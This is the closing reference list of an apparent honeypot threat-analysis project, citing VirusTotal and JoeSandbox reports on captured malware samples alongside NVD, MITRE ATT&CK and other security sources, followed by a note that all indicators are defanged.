20. VirusTotal — https://www.virustotal.com/gui/file/7a656791b445fff02ac6e9dd1081cc265db935476a9ee71139cb6aef52102e2b
21. VirusTotal — https://www.virustotal.com/gui/file/0d3c687ffc30e185b836b99bd07fa2b0d460a090626f6bbbd40a95b98ea70257
22. VirusTotal — https://www.virustotal.com/gui/file/c691262ed27e50d98f0ed4224365cbb38115392765b7232f430f60de1b5c575c
23. JoeSandbox Cloud, "Linux Analysis Report arm.uhavenobotsxd[.]elf" — https://www.joesandbox.com/analysis/1810455/0/html
24. NIST, "National Vulnerability Database" — https://nvd.nist.gov/vuln
25. MITRE, "ATT&CK Framework" — https://attack.mitre.org/
26. Ritwik Gupta, "T-Pot Analysis – Unveiling Threat Landscape" (LinkedIn project)
27. Humanize Security, "The 10 Most Powerful Cyber Nations in the World", Feb. 13, 2023 — https://www.humanize.security/blog/cyber-awareness/the-10-most-powerful-cyber-nations-in-the-world
28. Warp, "Chmod 755", Mar. 8, 2023 — https://www.warp.dev/terminus/chmod-755
29. CrowdStrike, "Remote Code Execution (RCE): Principles and Function", Sept. 2, 2022 — https://www.crowdstrike.com/en-us/cybersecurity-101/cyberattacks/remote-code-execution/
30. LinuxQuestions, "Remove Exim4 Completely?", Jun. 24, 2008 — https://www.linuxquestions.org/questions/debian-26/remove-exim4-completely-651312/

---

> ⚠️ *All IOCs in this repository are defanged. Malware captured by the honeypots was stored for analysis only and never executed. This project was carried out for educational and research purposes.*
